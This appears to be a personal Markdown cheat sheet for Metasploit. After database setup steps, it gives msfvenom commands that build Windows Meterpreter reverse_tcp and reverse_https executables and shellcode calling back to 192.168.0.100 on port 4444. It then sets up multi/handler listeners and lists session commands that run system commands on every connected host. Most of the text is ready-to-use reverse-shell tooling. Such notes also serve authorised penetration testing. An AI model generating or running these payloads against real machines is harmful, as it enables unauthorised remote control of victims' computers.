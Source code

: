 DB
--- 

__msf db init:__  
>
> sudo systemctl enable postgresql  
> sudo systemctl start postgresql  
> sudo msfdb init  
>
> msfconsole -q  
> `msf > db_status`

__upd msf pg collation:__  
>
> sudo -u postgres psql  
> `# \l`  
> `# \c msf`  
> `# REINDEX DATABASE msf;`  
> `# ALTER DATABASE msf REFRESH COLLATION VERSION;`  
> `# \q`  

MTR
---

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100t.exe  
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100t_x64.exe  

> `msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set ExitFunc thread;set ExitOnSession false;set LHOST 192.168.0.100;set LPORT 4444;run"`

> msfconsole -q  
>
> `msf > use exploit/multi/handler`    
>
> `msf > set PAYLOAD windows/meterpreter/reverse_tcp`  
> `msf > set LHOST 192.168.0.100`    
> `msf > set LPORT 4444`    
> `msf > set ExitOnSession false`    
> `msf > exploit -j`

> `msf> jobs -l`  
> `msf> sessions -l`
  
> `msf> run -j # run -jz # run`

`help`  
> `msf> sessions -h`  
> `msf> run -h`
> `msf> jobs -h`
 
`sessions`  
> `msf > sessions -l   # list all sessions`  
> `msf > sessions -i 1 # switch to session 1`

> `msf > sessions -n session_name_one -i 1 # set session name`  

> `msf > sessions -i 1 -c "whoami" # run sys cmd at 1 session `  
> `msf > sessions -i 1 -C "sysinfo" # run mtr cmd at 1 session`  

> `msf > sessions -c "tasklist" all # run sys cmd at all sessions`  

> `msf > session -K # kill all sessions`  
> `msf > sessions -k 1 # kill 1 session`  

> `meterpreter > background # current session to background`  
> `meterpreter > exit # exit from current session`  

---

> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f raw -o _mtr100h.bin  
> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f exe -o _mtr100h.exe  

> `msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set ExitOnSession false;set ExitFunc thread;set LHOST 192.168.0.100;set LPORT 4444;run"`  

---
  